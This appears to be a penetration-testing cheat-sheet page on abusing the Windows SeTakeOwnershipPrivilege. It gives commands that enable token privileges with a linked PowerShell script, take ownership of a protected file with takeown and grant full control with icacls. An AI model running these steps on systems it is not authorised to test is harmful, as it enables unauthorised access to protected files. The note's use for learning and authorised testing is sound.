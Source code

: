# SeTakeOwnershipPrivilege

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**SeTakeOwnershipPrivilege**</mark> allows a user to <mark style="color:purple;">**assume ownership of any "securable object"**</mark>, including Active Directory objects, NTFS files and folders, printers, registry keys, services, and processes. This privilege grants <mark style="color:green;">`WRITE_OWNER`</mark> permissions on an object, enabling the user to modify its ownership within the security descriptor. By default, administrators possess this privilege. While it is uncommon for a standard user account to have this privilege, it may be assigned to service accounts responsible for tasks such as running backup jobs and managing VSS snapshots.

## <mark style="color:yellow;">Enable Privilege</mark>

For this we would use this script: [**\[LINK\]**](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)

```powershell
PS C:\> Import-Module .\Enable-Privilege.ps1
PS C:\> .\EnableAllTokenPrivs.ps1
```

## <mark style="color:yellow;">Accessing sensible file</mark>

#### Checking directory ownership

```powershell
PS C:\> cmd /c dir /q 'C:\Share'
```

#### Taking ownership

```powershell
PS C:\> takeown /f 'C:\Shares\file.txt'
```

#### **Confirming Ownership Changed**

```powershell
PS C:\> Get-ChildItem -Path 'C:\Share\file.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```

#### Modifying File's ACL

```powershell
PS C:\> icacls 'C:\Share\file.txt' /grant venator17:F
```
